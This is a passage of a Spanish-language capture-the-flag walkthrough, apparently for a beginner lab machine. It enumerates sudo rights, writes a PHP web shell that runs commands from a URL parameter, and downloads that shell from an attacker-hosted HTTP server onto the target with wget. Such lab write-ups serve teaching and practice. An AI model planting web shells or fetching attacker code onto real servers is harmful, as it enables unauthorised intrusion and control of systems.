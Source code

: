 ## Exploración de permisos

~~~shell
$ whoami
www-data
~~~

~~~shell
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-131-192.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-131-192.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
~~~

~~~shell

~~~

## Shell reversa


Permisos de escritura sobre el directorio donde arranca la ejecución de comandos

~~~shell
sudo chown -R www-data:www-data /var/www
~~~

Habilitamos un servidor para pasarle archivos a la máquina remote
~~~shell
cd tmp
python3 -m http.server
~~~

En un arvhico llamado `shell.php` escribimos esto
~~~php
<?php
$cmd = $_GET['cmd'];
system($cmd);
?>
~~~

En el input de portal ejecutamos
~~~shell
wget $IP_de_maquina_atacante:puerto/shell.php 
~~~

~~~shell
ls -al shell.php
-rw-r--r-- 1 www-data www-data 44 Jul  8 05:10 shell.php
~~~

Ahora visitamos `IP/shell.php?cmd=ls`:
~~~plaintext
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
index.html.1
login.php
php-reverse-shell.php
php-shell.php
portal.php
robots.txt
shell.php
~~~
